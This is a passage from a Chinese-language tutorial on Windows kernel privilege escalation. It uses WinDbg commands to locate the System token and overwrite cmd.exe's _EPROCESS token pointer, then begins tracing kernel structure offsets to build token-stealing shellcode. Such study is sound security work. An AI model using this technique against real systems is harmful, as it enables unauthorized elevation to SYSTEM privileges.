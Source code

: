 ```c
CapabilityCount: 0      Capabilities: 0x0000000000000000
LowboxNumberEntry: 0x0000000000000000
Security Attributes:
Invalid AUTHZBASEP_SECURITY_ATTRIBUTES_INFORMATION with no claims
Process Token TrustLevelSid: S-1-19-1024-8192
```

可以看到system的权限跟这个数据一致。

![](https://pic.wonderkun.cc//uploads/note/20210821195011.png)

下一步就是定位`cmd.exe`进程的`_EPROCESS`结构并替换偏移0x360的token指针值为System的token地址。

```c++
1: kd> !process 0 0 cmd.exe 
PROCESS ffffa988480e30c0
    SessionId: 1  Cid: 07bc    Peb: a26a142000  ParentCid: 1340
    DirBase: 9a1f6002  ObjectTable: ffffcc0783789d80  HandleCount:  70.
    Image: cmd.exe

1: kd> eq ffffa988480e30c0 + 0x360   ffffcc07`7de07720
```

然后看一下cmd.exe的权限，发现已经提权成功了。

![](https://pic.wonderkun.cc//uploads/note/20210821195838.png)

### 写shellcode

按照上面的思路，首先需要获取到进程的`EPROCESS`结构体的地址，在内核中可以获取到`EPROCESS`结构的函数是`PsGetCurrentProcess`

![](https://pic.wonderkun.cc//uploads/note/20210821200447.png)

我们反汇编这个函数的代码：

```c
1: kd> uf PsGetCurrentProcess 
nt!PsGetCurrentProcess:
fffff802`41abe0e0 65488b042588010000 mov   rax,qword ptr gs:[188h]
fffff802`41abe0e9 488b80b8000000  mov     rax,qword ptr [rax+0B8h]
fffff802`41abe0f0 c3              ret
```

其实`gs:[188h]`的位置存贮的是`_KTHREAD`结构的地址，看一下这个结构，发现0x220的位置存储的就是`_KPROCESS`：

```c
1: kd> dt _KTHREAD   
ntdll!_KTHREAD
   +0x000 Header           : _DISPATCHER_HEADER
   ......
   +0x220 Process          : Ptr64 _KPROCESS
   +0x228 UserAffinity     : _GROUP_AFFINITY
```

但是函数`PsGetCurrentProcess`取的数据是 `0xb8`偏移的数据，其实这两个位置指向的是同一个数据。`_KTHREAD` 0x98偏移位置是`ApcStateFill`，其实存储的结构是`_KAPC_STATE`，`0x20`位置存储的就是`_KPROCESS`。
